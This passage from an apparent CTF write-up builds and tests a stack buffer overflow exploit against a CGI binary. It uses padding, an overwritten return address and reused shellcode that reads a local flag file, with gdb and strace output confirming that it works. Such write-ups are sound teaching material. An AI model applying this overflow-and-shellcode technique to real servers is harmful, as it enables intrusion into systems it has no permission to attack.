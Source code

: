 `SIGTRAP` is exactly what we want to see! We now have three steps yet: 1) create a flag file on our test machine, 2) replace `cc` with *any* other payload, and 3) run it against the web server!

## Weaponization

First, let's create a flag on our local machine so we don't confuse ourselves:

```
ron@ridcully ~ $ sudo mkdir -p /home/ctf/
ron@ridcully ~ $ echo 'CTF{my-fake-flag}' | sudo tee /home/ctf/flag.txt
CTF{my-fake-flag}
```

Now, what do we want to use for a payload? We can use `msfvenom` or whatever we want to generate an x64 payload, but in all honesty, that sounds like too much work. I ended up going [to my own blog](/2021/bsidessf-ctf-2021-author-writeup-shellcode-primer-runme-runme2-and-runme3) to a challenge from BSidesSF 2021 and grabbed the [solution file](https://github.com/BSidesSF/ctf-2021-release/blob/main/runme/solution/solution.bin). I didn't even have to change the path - the necessary code is identical.

Here's how we generate our new exploit using the `solution.bin` file from 2021:

```
3.1.3 :007 > File.write('/tmp/poc.bin', ('A'*168)+("\xca\x27\x41\x00\x00\x00\x00\x00")+File.read("/tmp/solution.bin"))
 => 263
```

Update our `CONTENT_LENGTH` and debug it again:

```
$ CONTENT_LENGTH=263 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain

CTF{my-fake-flag}
_[Inferior 1 (process 465655) exited normally]
```

And like magic, the exploit works (locally)! We can also use `strace` to watch the payload open, read, and write the data from the file, if we want (I like using this for troubleshooting):

```
$ CONTENT_LENGTH=263 strace ./auth.cgi < /tmp/poc.bin 
execve("./auth.cgi", ["./auth.cgi"], 0x7ffe603f3a50 /* 62 vars */) = 0

[...]

read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 263) = 263
open("/home/ctf/flag.txt", O_RDONLY)    = 3
read(3, "CTF{my-fake-flag}\n", 30)      = 18
write(1, "CTF{my-fake-flag}\n\0_\276\0\0\0\0\272\0\0\0\0", 30CTF{my-fake-flag}
_) = 30
exit(0)                                 = ?
+++ exited with 0 +++
```
